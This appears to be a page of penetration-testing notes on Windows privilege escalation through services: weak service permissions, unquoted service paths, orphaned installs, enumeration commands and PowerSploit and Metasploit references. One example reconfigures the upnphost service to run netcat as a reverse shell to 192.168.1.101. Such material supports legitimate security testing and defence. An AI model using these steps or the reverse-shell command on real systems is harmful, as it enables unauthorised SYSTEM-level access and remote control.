 # Services

**References:**  
* [Windows privilege escalation via weak service permissions](http://travisaltman.com/windows-privilege-escalation-via-weak-service-permissions/)
* [Trusted Service Paths](https://www.sock-raw.org/wiki/doku.php/windows_priv_esc#trusted_service_paths)

* Always a good idea to find something wrong with services, as these normally run as system.

## Weak Permissions
* If you find a service that has *write permissions* set to everyone you can change that binary into your custom binary and make it execute in the privileged context.
* Note: Windows XP shipped with several vulnerable built-in services.

### Find Weak Services - Command Line  
  Can use either `wmic`, `sc.exe` or `accesschk.exe` (SEE BELOW). What we are interested in is binaries that have been installed by the user. In the output you want to look for BUILTIN\Users:(F). Or where your user/usergroup has (F) or (C) rights.

* Excluded service executables that live in c:\windows\system32 folder because more than likely those folders have the proper permissions because they came packaged with windows.

### Find Weak Services - PowerSploit
* The Get-ServiceDetail module will list some basic information about the service like the process ID and the state.
* The module that will display information equivalent to the query service configuration is the Get-ModifiableService . This module will list all the services that the user can modify the binary path and also will determine if the user can restart the service.
* The module Invoke-ServiceAbuse will automatically modify the binary path and restart the service in order to add the user john into the local administrators group.

See more [here](https://pentestlab.blog/2017/03/30/weak-service-permissions/)

### Known Weak Services

  - Change the **upnp** service binary
  ```
  upnphost
    RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
    RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
    RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS         ****
  ```
  ** This allowed any user logged in could reconfigure these services
  ```
  c:> sc config upnphost binpath= "C:\Inetpub\nc.exe 192.168.1.101 6666 -e c:\Windows\system32\cmd.exe"
  c:> sc config upnphost obj= ".\LocalSystem" password= ""
  c:> sc config upnphost depend= ""
  ```

  - Windows XP SP3
  ```
  DcomLaunch
    RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
    RW BUILTIN\Power Users
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG       **** THIS IS THE IMPORTANT ONE
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        READ_CONTROL
  ```
  ** If you can reconfigure service, you can set it to run arbitrary binary.

  - Windows XP SP1
  ```
  SSDPSRV
    RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
    RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
    RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS         ****
  ```
  ** Has been patched, but might still find

* Permissions that we should look for:

Permission            | Good for us?
---                   | ---
SERVICE_CHANGE_CONFIG | Can reconfigure service binary
WRITE_DAC             | Can reconfigure permissions. leading to SERVICE_CHANGE_CONFIG
WRITE_OWNER           | Can become the owner, reconfigure permissions
GENERIC_WRITE         | Inherits SERVICE_CHANGE_CONFIG
GENERIC_ALL           | Inherits SERVICE_CHANGE_CONFIG


### Unquoted Service Paths / Trusted Service Paths

* Find Services With Unquoted Paths  

```
Using WMIC
c:> wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" |findstr /i /v """
c:> wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """


# Using sc
c:> sc query              --> get a list of services
c:> sc qc [service name]  --> check manually, one by one

# Look for BINARY_PATH_NAME and see if it is unquoted.

# Using PowerShell
pws> gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name

```
  If the path contains a space and is not quoted, the service is vulnerable.

* If the path to the binary is unquoted:
  ```
  C:\Program Files\Some Folder\Service.exe
  ```

  Windows would try to locate and execute programs in the following order:
  ```
  - C:\Program.exe
  - C:\Program Files\Some.exe
  - C:\Program Files\Some Folder\Service.exe
  ```

* Metasploit Module
  ```
  exploit/windows/local/trusted_service_path
  ```

### Orphaned Installs:
  - Missing files in writable locations.

  - Have a look at Autoruns (in Sysinternals) at services running there. Sometimes there will be a file that is not found for a service that was defined (and forgotten about). If the location of this file is writable, you can replace this and have it run as system.
  ```
  c:>  autoruns.exe -a | findstr /n /R "File\ not\ found"
  ```


## Tools

#### WMIC

See [security/tools/wmic.md](../../tools/wmic.md)

#### Service Control - **sc.exe**  
See [security/tools/sc.exe.md](../../tools/sc.exe.md)

#### AccessChk
* AccessChk (from SysInternals suite) can also be used to find weak services:
  ```
  c:> accesschk.exe -uwcqv *
  c:> accesschk.exe -uwcqv "Authenticated Users" *
  c:> accesschk.exe -uwcqv "Authenticated Users" * /accepteula
  c:> accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
  c:> accesschk.exe -qdws Users C:\Windows\
  c:> accesschk.exe -ucqv SSDPSRV
  c:> accesschk.exe -uwcqv "Username" * -accepteula
  ```
  Then query service using `sc.exe`
  ```
  c:> sc qc Apache
  ```
